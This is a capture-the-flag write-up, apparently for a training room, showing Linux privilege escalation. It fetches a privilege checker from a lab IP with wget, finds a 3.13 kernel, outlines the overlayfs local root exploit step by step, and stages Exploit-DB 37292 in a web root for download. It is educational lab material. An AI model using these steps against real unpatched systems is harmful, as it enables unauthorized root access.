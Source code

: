 ## Task 4 Privilege Escalation

#### Download the [linuxprivchecker](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123) to enumerate installed development tools.

```bash
wget http://10.6.9.176/linuxprivchecker.py
python linuxprivchecker.py
```

#### Whats the kernel version?

```bash
uname -a
```

![](<../../.gitbook/assets/Screenshot from 2022-02-21 22-11-30.png>)

{% hint style="success" %}
`3.13.0-32-generic`
{% endhint %}

#### This machine is vulnerable to the overlayfs exploit. The exploitation is technically very simple:

* **Create new user and mount namespace using clone with CLONE\_NEWUSER|CLONE\_NEWNS flags.**
* **Mount an overlayfs using /bin as lower filesystem, some temporary directories as upper and work directory.**
* **Overlayfs mount would only be visible within user namespace, so let namespace process change CWD to overlayfs, thus making the overlayfs also visible outside the namespace via the proc filesystem.**
* **Make su on overlayfs world writable without changing the owner**
* **Let process outside user namespace write arbitrary content to the file applying a slightly modified variant of the SetgidDirectoryPrivilegeEscalation exploit.**
* **Execute the modified su binary**

#### You can download the exploit from here: [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)

#### Fix the exploit to work with the system you're trying to exploit. Remember, enumeration is your key!

```bash
searchsploit -m 37292 
sed -i 's/gcc/cc/g' 37292.c
sudo mv 37292.c /var/www/html/ofs.c
```

#### What development tools are installed on the machine?
